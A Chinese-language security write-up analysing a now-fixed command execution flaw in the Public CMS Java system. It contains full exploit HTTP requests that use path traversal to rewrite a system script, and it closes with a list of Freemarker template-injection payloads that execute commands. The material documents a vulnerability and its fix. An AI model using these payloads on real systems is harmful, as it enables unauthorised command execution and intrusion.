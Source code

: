 0x00 漏洞前言
---------

Github上面一个开源的JAVA CMS系统( [Public CMS](https://github.com/sanluan/PublicCMS) )，该系统存在一处任意命令执行(漏洞现已修复)，记录下该漏洞的分析过程以及遇到类似的CMS系统我们还可以从哪些点进行漏洞挖掘。

0x01 漏洞发现
---------

搭建完系统后，登录admin系统管理员进入系统，发现有一个执行脚本的功能点，脚本可选择bat或sh(用于Windows和Linux两个操作系统上)：

![image-20230921182810061](https://shs3.b.qianxin.com/butian_public/f252671f36fb957390faf2ee73a450424dd02f5e1f272.jpg)

点击执行获取数据包如下：

```php
POST /publiccms_war/admin/sysSite/execScript?navTabId=sysSite/script HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 72
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://127.0.0.1:8081
Referer: http://127.0.0.1:8081/publiccms_war/admin/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=1173C94B74E22D7477C2BB54B5760C4F; PUBLICCMS_ADMIN=1_553ba132-1c5f-4218-bb35-f955109d8446
Connection: close

_csrf=553ba132-1c5f-4218-bb35-f955109d8446&command=sync.bat&parameters=1
```

0x02 漏洞分析

搜索URL路由(Controller)：

![image-20230920185120776](https://shs3.b.qianxin.com/butian_public/f8557344ad3ff53a00b941b9fc5641d713b96f94fef9c.jpg)

发现了这个方法，该方法有两个参数 `command` 和 `parameters` 分别为我们script脚本名和参数siteId：

![image-20230920185155632](https://shs3.b.qianxin.com/butian_public/f24930976bc9e60fc0bb005c4379c38f7a852a0ff833d.jpg)

跟进方法 `execute`，可以看到对脚本和参数的处理：

![image-20230921150912868](https://shs3.b.qianxin.com/butian_public/f388886e542475f9ca0d8df7b6c78e41dc950457766e6.jpg)

方法的大概处理逻辑为：首先会对脚本名进行判断，当传入脚本为`backupdb.bat`或`backupdb.sh`(用于数据库备份的脚本)时，加载数据库配置文件`databaseConfiFile`，从数据库配置文件中获取用户名、数据库名、密码这些属性，判断是否存在加密后的密码，然后解密密码，并将这些值分别作为元素存入 `cmdarray` 数组中；当不是这两个脚本时(也就是`sync.bat`或`sync.sh`)，先对参数进行处理，参数会进行 `PARAMETER_PATTERN` 正则表达式的匹配，即检查参数的合法性；

方法的后半部分是对文件的创建和命令执行的处理，在这里我们找到了 `Runtime.getRuntime().exec()` 方法：

![image-20230921151527629](https://shs3.b.qianxin.com/butian_public/f3266265159216d4926fdf2fb8cb448c348a04e07b129.jpg)

方法的大概处理逻辑为：创建文件路径为dir(dir为上面定义的：`CMS_FILEPATH + /script`)+脚本名，然后判断文件是否存在，如果不存在获取输入流内容并复制到 `script` 文件中，将 `filepath` 插入 `cmdarray` 数组的开头，然后通过 `Runtime.getRuntime().exec()` 方法执行脚本的内容。

但这些脚本都是系统内置的脚本(无法直接利用)，之后发现系统提供了一个替换模板文本内容的功能点，我们可以利用这个功能点来修改脚本内容，将命令写入脚本中实现任意命令执行：

![image-20230921183254135](https://shs3.b.qianxin.com/butian_public/f158122e4e845736c69e9cec925633bef2c61d799420b.jpg)

点击替换抓取数据包如下，参数 `word` 为查询的内容，`replace` 为替换的内容，`replaceList[0].path`为文件路径，还有一个 `replaceList[0].indexs` 索引标记(用于标记搜索的内容在文件中出现的次数&amp;位置)：

```php
POST /publiccms_war/admin/cmsTemplate/replace?navTabId=cmsTemplate/list HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 226
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://127.0.0.1:8081
Referer: http://127.0.0.1:8081/publiccms_war/admin/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PUBLICCMS_ADMIN=1_553ba132-1c5f-4218-bb35-f955109d8446; JSESSIONID=BA166C749709B8766689F349339FEA73; PUBLICCMS_ANALYTICS_ID=bf9f77eb-31db-4888-8d82-4b1e05fc7c39
Connection: close

_csrf=553ba132-1c5f-4218-bb35-f955109d8446&word=login&replace=1234&replaceList%5B0%5D.path=%2Fmember%2Flogin.html&replaceList%5B0%5D.indexs=0&replaceList%5B0%5D.indexs=1&replaceList%5B0%5D.indexs=2&replaceList%5B0%5D.indexs=3
```

搜索下这个路由，找到方法 `replace`，参数为传入的模板替换对象 `TemplateReplaceParameters`、查询的内容`word` 以及替换的内容 `replace`：

![image-20230922163904475](https://shs3.b.qianxin.com/butian_public/f56014006ea6fbcecc9902a901ba39561cb5c667b74cc.jpg)

先看下 `TemplateReplaceParameters` 参数，它有一个列表属性 `repalceList` 是一个泛型列表：

![image-20230921185215209](https://shs3.b.qianxin.com/butian_public/f19833995ee413d3741944c57dde0fdeba067177f32ef.jpg)

其元素类型 `FileReplaceResult` 类，里面有两个属性path和indexs即为我们post数据传入的`replaceList[0].path`和`replaceList[0].indexs`：

![image-20230921185414388](https://shs3.b.qianxin.com/butian_public/f3622522e17aef89cf97ff62885d7df10b37665b73073.jpg)

回头再看下这个方法的处理逻辑：首先获取站点ID + `CommonConstants.SEPARATOR=\`构成对应的模板文件路径，然后调用 `replaceFileList` 方法，跟进这个方法可以看到参数为原始模板路径、传入的模板文件列表和要替换的文本内容，方法如下用于处理读文件内容-&gt;替换内容-&gt;重新写入文件：

![image-20230921153542172](https://shs3.b.qianxin.com/butian_public/f385108a50a21443368adb11c5bc9c0de72a2b3d7125f.jpg)

查看文件后发现模板和脚本都在 `publiccms` 目录下，且路径为：

```php
\publiccms\template\site_id\xx\xx
\publiccms\script\sync.bat
```

整体跟下来发现未对替换的文件路径做限制，所以我们可以利用 `../../` 从当前目录穿越到脚本文件目录下，然后替换系统脚本文件内容。

0x02 漏洞复现
---------

1、构造数据包修改脚本文件内容(这里演示在Windows系统上对bat脚本内容的替换操作)

```php
POST /publiccms_war/admin/cmsTemplate/replace?navTabId=cmsTemplate/list HTTP/1.1
Host: 127.0.0.1:8081
Content-Length: 226
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://127.0.0.1:8081
Referer: http://127.0.0.1:8081/publiccms_war/admin/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PUBLICCMS_ADMIN=1_553ba132-1c5f-4218-bb35-f955109d8446; JSESSIONID=BA166C749709B8766689F349339FEA73; PUBLICCMS_ANALYTICS_ID=bf9f77eb-31db-4888-8d82-4b1e05fc7c39
Connection: close

_csrf=553ba132-1c5f-4218-bb35-f955109d8446&word=echo%20%22repo%20not%20config!%22&replace=echo%20%22repo%20not%20config!%22%20%26%20start%20calc&replaceList%5B0%5D.path=../../script/sync.bat&replaceList%5B0%5D.indexs=0
```

成功替换内容：

![image-20230927170935297](https://shs3.b.qianxin.com/butian_public/f83750472f969c890dc2f30f46530bf603af4024c9992.jpg)

2、执行脚本，触发命令

![image-20230927171124902](https://shs3.b.qianxin.com/butian_public/f7949386a0543aef5e2499466a300e60c3fd19f07ca88.jpg)

0x03 漏洞修复
---------

在处理文件路径中添加了方法 `getSafeFileName`：

![image-20231008102929407](https://shs3.b.qianxin.com/butian_public/f446818fc1c2d8be28cc158125695c72d4858b541ce7c.jpg)

该方法如下，对传入的 `..` 的路径做了置为空字符串的操作：

![image-20230928151923627](https://shs3.b.qianxin.com/butian_public/f100355d5a579b50933ff6908928bf7937ea78e5c8ecb.jpg)

0x04 漏洞扩展
---------

类似的cms系统还可以尝试下文件上传、模板注入等方法。

1、文件上传

- 修改文件上传路径，上传恶意脚本到执行系统脚本的目录下

> 这里需要注意系统是否存在类似于这个系统对路径安全的处理方法

- 修改脚本执行路径，执行脚本时将路径修改到用户目录下

> 这里需要注意执行脚本时系统对传入脚本的匹配方法

```java
//像这个cms系统使用了 ArrayUtils.contains 对象引用，传入的脚本名只能匹配系统的这四个脚本
String[] COMMANDS = { "sync.bat", "sync.sh", "backupdb.bat", "backupdb.sh" }
ArrayUtils.contains(COMMANDS, command.toLowerCase())

ArrayUtils.contains(COMMANDS, "sync.bat");         //true
ArrayUtils.contains(COMMANDS, "\\aaa\\sync.bat");  //false
```

2、模板注入

像这类提供了自定义模板编辑功能点的cms系统，可以看下系统引用的模板引擎如 `Thymeleaf`、`Freemarker`等，可能会存在模板注入(该系统使用的是 `Freemarker 2.3.32` 版本，我们这里整理了下该引擎历史版本可利用的POC)：

- new()

```html
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("Calc") }
<#assign value="freemarker.template.utility.ObjectConstructor"?new()>${value("java.lang.ProcessBuilder","Calc").start()}
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc")
```

但这个利用方法在 `2.3.17` 版本以后修复了，官方对这三个类的解析做了限制。

- API

```html
<#assign classLoader=object?api.class.protectionDomain.classLoader> 
<#assign clazz=classLoader.loadClass("ClassExposingGSON")> 
<#assign field=clazz?api.getField("GSON")> 
<#assign gson=field?api.get(null)> 
<#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))> 
${ex("Calc"")}
```

利用前提：当 `api_builtin_enabled` 为true时才可使用，而该配置在`2.3.22` 版本之后默认为false。

- `2.3.30`以下版本

```html
<#assign classloader=<<object>>.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("whoami")}
```